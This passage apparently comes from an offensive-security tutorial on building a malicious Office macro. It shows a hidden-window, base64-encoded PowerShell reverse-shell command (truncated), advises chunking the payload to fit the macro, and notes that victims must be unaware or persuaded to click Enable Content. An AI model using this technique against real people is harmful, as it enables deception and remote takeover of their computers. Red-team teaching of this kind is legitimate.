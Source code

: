 ![](./img/Chapter13/15.png)

However, if the user does not click Enable Content, the attack will fail. Therefore, the user must be unaware of the potential consequences or be sufficiently encouraged by the presentation of the document to click this button

Make the reverse shell macro using base64-encoded PowerShell script in the previous section: `powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQ...`

Use a simple Python [script](./Scripts/Chapter13/split_cmd.py) to split the base64-encoded PowerShell script into chunks of 50 characters
